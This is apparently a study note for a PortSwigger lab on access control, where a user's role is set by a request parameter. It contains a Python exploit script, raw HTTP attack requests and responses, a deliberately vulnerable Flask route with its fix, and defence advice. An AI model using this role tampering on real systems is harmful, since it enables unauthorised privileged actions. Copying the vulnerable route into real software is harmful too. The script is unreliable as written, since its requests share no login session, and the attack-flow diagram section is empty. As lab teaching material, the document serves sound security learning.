

## Lab Setup: User Role Controlled by Request Parameter

Let's walk through a practical example of an access control vulnerability where the user role is controlled by a request parameter. We'll use Python and the `requests` library to simulate an attack.

### Step-by-Step Mechanics

1. **Login as the Given User**:
    - Obtain the CSRF token.
    - Set up the request parameters (`username`, `password`).
    - Perform the POST request to the login endpoint.
    - Verify the login was successful.

2. **Exploit the Vulnerability**:
    - Manipulate the request parameter to change the user role.
    - Perform actions that should be restricted to higher roles.

### Code Example

```python
import requests

# Define the login URL
login_url = "http://example.com/login"

# Define the CSRF token (obtained from the application)
csrf_token = "your_csrf_token_here"

# Define the username and password
username = "given_username"
password = "given_password"

# Set up the data dictionary for the POST request
data = {
    "csrf_token": csrf_token,
    "username": username,
    "password": password
}

# Perform the POST request to the login endpoint
response = requests.post(login_url, data=data, verify=False, proxies={"http": "http://localhost:8080", "https": "http://localhost:8080"})

# Check if the login was successful
if "logout" in response.text:
    print("Successfully logged in as the given user.")
else:
    print("Failed to log in as the given user.")
    exit()

# Assuming we are logged in, now we can exploit the vulnerability
# Let's say the application uses a 'role' parameter to control user roles
exploit_url = "http://example.com/perform_action"

# Manipulate the role parameter
data = {
    "role": "admin",
    "action": "critical_action"
}

# Perform the POST request to the action endpoint
response = requests.post(exploit_url, data=data, verify=False, proxies={"http": "http://localhost:8080", "https": "http://localhost:8080"})

print(response.text)
```

### Explanation of Each Step

1. **Obtain the CSRF Token**:
    - CSRF tokens are used to prevent Cross-Site Request Forgery attacks. They ensure that the request originates from the same origin as the server.
    - The CSRF token is typically obtained from the server during the initial request.

2. **Set Up the Data Dictionary**:
    - The `data` dictionary contains the parameters that will be sent with the POST request.
    - The `csrf_token`, `username`, and `password` are included in the dictionary.

3. **Perform the POST Request**:
    - The `requests.post` function sends a POST request to the login URL.
    - The `verify=False` parameter disables SSL verification, which is useful when using tools like Burp Suite.
    - The `proxies` parameter specifies the proxy settings to route the request through Burp Suite.

4. **Check the Response**:
    - After performing the login request, check if the response contains the "logout" string.
    - If the "logout" string is present, it indicates that the login was successful.

5. **Exploit the Vulnerability**:
    - Once logged in, manipulate the `role` parameter to change the user role.
    - Send a POST request to the action endpoint with the modified `role` parameter.

### Mermaid Diagram: Attack Flow



### Common Pitfalls

- **Hardcoding Roles**: Hardcoding roles in the application can lead to vulnerabilities if the roles are not properly validated.
- **Missing Validation**: Failing to validate the `role` parameter can allow attackers to manipulate it.
- **CSRF Protection**: Not implementing proper CSRF protection can make the application vulnerable to CSRF attacks.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual activity patterns.
- **Security Scanning**: Use automated security scanning tools to identify potential vulnerabilities.

#### Prevention

- **Input Validation**: Validate all input parameters, including the `role` parameter, to ensure they meet expected criteria.
- **Role-Based Access Control (RBAC)**: Implement RBAC to enforce strict access control policies based on user roles.
- **CSRF Tokens**: Ensure that CSRF tokens are properly generated and validated to prevent CSRF attacks.

#### Secure Coding Fixes

##### Vulnerable Code

```python
@app.route('/perform_action', methods=['POST'])
def perform_action():
    role = request.form['role']
    if role == 'admin':
        # Perform critical action
        return "Action performed"
    else:
        return "Unauthorized"
```

##### Secure Code

```python
@app.route('/perform_action', methods=['POST'])
def perform_action():
    role = request.form['role']
    if session.get('user_role') == 'admin':
        # Perform critical action
        return "Action performed"
    else:
        return "Unauthorized"
```

### Complete Example: Full HTTP Requests and Responses

#### Login Request

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

csrf_token=your_csrf_token_here&username=given_username&password=given_password
```

#### Login Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Welcome, given_username!</h1>
    <a href="/logout">Logout</a>
</body>
</html>
```

#### Exploit Request

```http
POST /perform_action HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

role=admin&action=critical_action
```

#### Exploit Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/plain; charset=UTF-8
Content-Length: 16

Action performed
```

### Hands-On Labs

For hands-on practice with access control vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on web security, including access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains a large number of security vulnerabilities.

These labs provide a safe environment to practice identifying and exploiting access control vulnerabilities.

By thoroughly understanding the concepts, mechanics, and preventive measures, you can effectively mitigate access control vulnerabilities in your applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/04-Background Theory|Background Theory]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/00-Overview|Overview]] | [[06-Understanding Access Control Vulnerabilities|Understanding Access Control Vulnerabilities]]
